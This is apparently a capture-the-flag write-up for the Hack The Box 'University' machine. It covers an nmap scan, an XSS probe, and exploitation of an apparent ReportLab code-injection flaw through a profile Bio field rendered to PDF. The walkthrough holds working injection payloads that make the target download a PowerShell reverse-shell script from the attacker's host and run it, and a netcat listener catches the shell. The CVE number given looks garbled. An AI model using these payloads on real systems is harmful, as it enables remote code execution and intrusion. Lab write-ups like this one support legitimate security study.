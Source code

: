 ![image](https://github.com/user-attachments/assets/9d5ed6d1-39f1-4b0c-a85c-b3e794e4048c)

## 1. Recon

### 1.1. Port Scan `nmap`

```console
root@kali:~# nmap -Pn -A 10.10.11.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-27 12:45 +08
Nmap scan report for 10.10.11.39
Host is up (0.0046s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://university.htb/
|_http-server-header: nginx/1.24.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-27 11:30:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/27%OT=53%CT=1%CU=36551%PV=Y%DS=2%DC=T%G=Y%TM=676
OS:E311C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S
OS:%TS=U)OPS(O1=M552NW8NNS%O2=M552NW8NNS%O3=M552NW8%O4=M552NW8NNS%O5=M552NW
OS:8NNS%O6=M552NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(
OS:R=Y%DF=Y%T=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=
OS:O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-12-27T11:31:16
|_  start_date: N/A
|_clock-skew: 6h45m06s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

TRACEROUTE (using port 199/tcp)
HOP RTT     ADDRESS
1   4.64 ms 10.10.14.1
2   4.70 ms 10.10.11.39

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.48 seconds
```

The target machine appears to be a domain controller, let's add the hosts records to Kali:

```sh
cat << EOF >> /etc/hosts
10.10.11.39 university.htb
10.10.11.39 university.htb0
EOF
```

## 2. Exploring

### 2.1. `80`

![image](https://github.com/user-attachments/assets/c54bf4a1-72f9-4ee4-b924-34f3856fe4d5)

User login to the site accepts password and signed certificate methods, and there are `Student` and `Professor` account types for registration

![image](https://github.com/user-attachments/assets/61c6deb6-8e94-4589-9df9-079518404561)

![image](https://github.com/user-attachments/assets/f191adcf-2642-4f8d-9c7b-077186c911bc)

`Professor` registration requires review and approval

![image](https://github.com/user-attachments/assets/4d898275-f86d-4486-81fc-6a70f6329564)

Let's register for a `Student` account

![image](https://github.com/user-attachments/assets/a357d888-67cc-4e84-8f88-1a89388fdea0)

The registered `Student` account is immediately usable for login

![image](https://github.com/user-attachments/assets/2e6b4626-b602-4087-b1d4-f968de386b81)

While testing each field in the profile, it seems that the Bio changes `<script>alert(123)</script>` to just `alert(123)`

→ the site may be susceptible to cross-site scripting

![image](https://github.com/user-attachments/assets/50b9f588-5b7d-43fc-a8af-293e4253d796)

### 2.2. Getting a reverse shell

Some searching shows that this (https://github.com/c53elyas/CVE-2023-337330 may be the vulnerability 

PoC code, replace `curl http://xxx.xxx.xxx.xxx/` with the code to be executed

```xml
<para>
  <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('curl http://xxx.xxx.xxx.xxx/') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    exploit
  </font>
</para>
```

There's a reverse shell PowerShell script in this repo that should work: https://github.com/joetanx/ctf/blob/main/reverse.ps1

Prepare Kali

```sh
curl -sLo /var/www/html/reverse.ps1 https://github.com/joetanx/ctf/raw/main/reverse.ps1
sed -i 's/<ADDRESS>/10.10.14.35/' /var/www/html/reverse.ps1
sed -i 's/<PORT>/4444/' /var/www/html/reverse.ps1
```

Start console:

```sh
root@kali:~# rlwrap nc -nvlp 4444
listening on [any] 4444 ...
```

Edit the PoC code to this:

```xml
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell Invoke-WebRequest -Uri http://10.10.14.35/reverse.ps1 -OutFile ./reverse.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>
```

> [!Note]
>
> `powershell Invoke-WebRequest -Uri http://10.10.14.35/reverse.ps1 -OutFile ./reverse.ps1'`
>
> Downloads the reverse shell script

Put into the Bio editor, submit, then select profile export (it is the html to pdf generator that would execute the command)

![image](https://github.com/user-attachments/assets/50a1aa58-9945-4db2-a1fe-208b2d04e0b0)

Next, edit the PoC code to this:

```xml
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell ./reverse.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">exploit</font></para>
```

> [!Note]
>
> `powershell ./reverse.ps1`
>
> Runs the reverse shell script

Put into the Bio editor, submit, then select profile export (it is the html to pdf generator that would execute the command)

![image](https://github.com/user-attachments/assets/59d24bed-ca36-4fdf-b3f5-ed1246da4534)

Reverse shell hooked as `university\wao` account

```pwsh
listening on [any] 4444 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.39] 62164

PS C:\Web\University> whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
university\wao S-1-5-21-2056245889-740706773-2266349663-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
UNIVERSITY\Web Developers                  Group            S-1-5-21-2056245889-740706773-2266349663-1129 Mandatory group, Enabled by default, Enabled group
Service asserted identity                  Well-known group S-1-18-2                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
